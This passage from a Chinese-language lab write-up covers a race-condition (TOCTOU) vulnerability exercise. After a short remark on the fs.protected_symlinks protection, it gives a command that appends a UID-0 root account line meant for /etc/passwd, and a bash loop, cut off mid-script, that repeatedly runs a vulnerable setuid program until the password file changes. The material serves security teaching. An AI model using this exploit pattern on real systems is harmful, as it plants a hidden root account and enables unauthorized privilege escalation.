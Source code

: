 （3）关于fs.protected_symlinks比较详细实践

我没有尝试。书上实践了部分，我截个图过来，偷偷懒。

![image-20200623175440771](Race_Condition_Vulnerability.assets/image-20200623175440771.png)

![image-20200623175417962](Race_Condition_Vulnerability.assets/image-20200623175417962.png)

拆掉小白兔的防护堡垒。

<br>

#### 不断进行攻击

不断尝试攻击，直到成功。

```shell
echo "test:U6aMy0wojraho:0:0:test:/root:/bin/bash" >> passwd_input.txt
```

```bash
#!/bin/bash

CHECK_FILE="ls -alh /etc/passwd.bak"

old=`$CHECK_FILE`
new=`$CHECK_FILE`

# echo $CHECK_FILE
# echo $old
# echo $new

while [ "$old" == "$new" ]; do
    ./vulp < passwd_input.txt
```